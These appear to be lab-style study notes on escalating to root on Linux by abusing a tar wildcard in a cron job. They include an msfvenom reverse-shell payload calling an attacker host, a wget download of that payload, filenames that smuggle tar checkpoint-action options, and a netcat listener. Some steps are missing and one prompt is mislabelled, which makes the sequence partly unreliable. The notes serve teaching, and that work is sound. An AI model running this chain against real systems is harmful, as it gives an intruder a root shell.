





Wildcards
• When a wildcard character (*) is provided to a command as part of an
argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
• This
process replaces the wildcard with a space-separated list of the file and directory names in the current
directory.
examples:
• filename expansion
happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by
creating files with these names.
Filenames are not simply restricted to simple options like -h or
--help.
◇
GTFOBins (
https://gtfobins.github.io) can
help determine whether a command has command line options which will be useful for our purposes.
1. View
the
cronJobs of the system-wide crontab:
target@debian:~$ cat /etc/crontab
2. View the contents of the
/usr/local/bin/compress.sh file:

Note that the tar command is run with a
wildcard in the /home/user
directory.
In tar, there are “checkpoint” flags, which allow you to execute actions after a specified number
of files have been archived.
The
wildcard for tar will call these
checkpoints.
4.
GTFOBins shows that tar has command line
options which can be used to run other commands as part of a checkpoint feature.
5. Use msfvenom(attacker machine) to create a
reverse shell ELF payload:
attacker@kali:/# msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IPattacker> LPORT=53 -f elf -o shell.elf
attacker@kali:/# python -m SimpleHTTPServer
6. Create two files in the /home/user directory and make shell.elf executable:
target@debian:~$ cd /home/user/
target@debian:~$ wget http://[attackerIp]/shell.elf
target@debian:~$ chmod +x /home/user/shell.elf
#create a checkpoint for every file that is processed
target@debian:~$ touch /home/user/--checkpoint=1
#action to run for every checkpoint
target@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
First we will specify that for every file that has been archived, there is a checkpoint. Then we give
an action to that checkpoint.
When the
wildcard will be read, it will read
the checkpoint
9. Run a netcat listener on the attacker machine and wait for the
cron job to run.
target@debian:~$ nc -nvlp 53
Because it is a
cronjob we have to wait some time before we receive
a connection
